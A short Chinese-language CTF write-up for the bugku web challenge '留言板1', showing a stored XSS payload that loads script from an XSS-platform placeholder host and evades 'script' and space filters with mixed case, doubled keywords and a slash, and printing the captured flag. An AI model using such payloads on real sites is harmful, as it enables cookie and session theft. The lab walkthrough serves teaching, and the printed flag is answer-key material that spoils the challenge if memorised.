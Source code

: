 ```yaml
---
title: bugku_WEB 留言板1
date: 2023-01-01 18:00 +0800
categories: [CTF,WEB]
tags: [WEB]
img_path: /assets/images/1.assets
---
```


在xss.pt 注册一个账号，配置XSS

![img](clip_image002.jpg)

![img](clip_image004.jpg)

我们复制srcipt这一条

```js
<sCRiPt sRC=//xx.xx/xxxx></sCrIpT>
```

我们会发现过滤了script和空格，进行其他代码尝试，会发现 ( ) 括号也进行了过滤

我们有大小写+双写可以过滤srcipt，空格使用反斜杠进行绕过

```js
<sCRisCRiPtPt/sRC=//xx.xx/xxxx></sCrsCrIpTIpT>
```

测试情况

![img](clip_image006.jpg)

![img](clip_image008.jpg)

flag=flag%7B3f82f0d1288d080024d1ee51d4499228%7D;

flag{3f82f0d1288d080024d1ee51d4499228}